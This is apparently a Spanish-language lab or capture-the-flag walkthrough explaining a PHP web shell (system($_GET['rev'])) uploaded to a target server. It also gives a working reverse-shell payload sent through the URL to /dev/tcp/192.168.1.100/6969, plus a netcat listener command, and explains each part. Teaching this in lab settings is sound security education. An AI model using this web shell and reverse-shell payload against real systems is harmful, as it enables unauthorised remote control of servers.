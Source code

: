 - `<?php ... ?> ` :  Esto indica el inicio y el fin de un bloque de código.
- `system($_GET['rev']);` :  En esta línea ocurre la operación principal.
- `system()` :  Esta funcón ejecuta un comando directamente del sistema operativo y muestra la salida.
- `$_GET['rev']` :  $_GET es un array superglobal que recoge los datos enviados a través de la consulta de la URL (`?rev=comando`) usando el método GET. En este caso, está buscando un parámetro llamado `rev`. 

Antes de ponerlo a prueba, es necesario subir el script a el servidor.
  
 ![image](https://github.com/user-attachments/assets/d69ce36a-c297-452e-85de-ae09e618eb3a)

### **Ejemplo de uso de reverse.php**

**http://172.17.0.2/uploads/reverse.php?rev=whoami**

- `http://172.17.0.2/uploads/reverse.php`: Esta parte especifica la ubicación del archivo `reverse.php` en el servidor.
- `?rev=whoami`: Esto pasa el valor "whoami" a la variable `$_GET['rev']` en el archivo PHP. Este valor es el comando de linux que nos permite saber el nombre del usuario actual, si el funcionamiento del script es correcto, motrará un texto similar a `www-data` en el navegador, como se muestra en la imagen de abajo.

![image](https://github.com/user-attachments/assets/68eead14-ecc8-49c8-95e9-1cceb69883ea)

### **Ejecución de la reverse shell**

`http://172.17.0.2/uploads/reverse.php?rev=bash -c "bash -i >%26 /dev/tcp/192.168.1.100/6969 0>%261"`

- `bash -c`: Ejecuta el siguiente comando en una nueva instancia de bash. Esto permite aislar la ejecución del comando del entorno actual.
- `bash -i` :Ejecuta bash en modo interactivo. Esto crea una nueva sesión de shell interactiva, permitiendo al usuario ingresar comandos.
- `>%26`: Redirige tanto la salida estándar (stdout) como la entrada estándar de error (stderr) al dispositivo especificado.
- `/dev/tcp/192.168.1.100/6969`: Es un "archivo" especial en sistemas Linux que establece una conexión TCP a la dirección IP 192.168.1.100 en el puerto 6969. Toda la salida y los errores se envían a esta conexión. La IP cambiará en cada dispositivo, se puede comprobar con el comando `ifconfig` o `ip addr`.
- `0>%261`: Redirige la entrada estándar (stdin) de la shell a la misma conexión TCP. Esto permite una comunicación interactiva a través de la conexión de red.

#### Proceso:

- **Fase de Preparación**: El atacante inicia un listener en su máquina en el puerto 6969 utilizando el comando `nc -lvnp 6969` de la herramienta Netcat. Esto prepara la máquina atacante para recibir la conexión de la reverse shell.
  - `nc`: Esta es la abreviatura de "netcat", que se utiliza para leer y escribir datos a través de conexiones de red. 
  - `-l`: Indica a netcat que debe entrar en modo escucha, es decir, esperará conexiones entrantes en el puerto que se deseé.
  - `-v`: Activa el modo detallado. Muestra información adicional sobre la conexión, como la dirección IP y el puerto del cliente que se conecte.
  - `-n`: Evita la resolución de nombres de dominio. En lugar de intentar resolver el nombre de dominio asociado a una dirección IP, se utiliza directamente la dirección IP.
  - `-p 6969`: Esta opción especifica el número del puerto que se pondrá en escucha. 

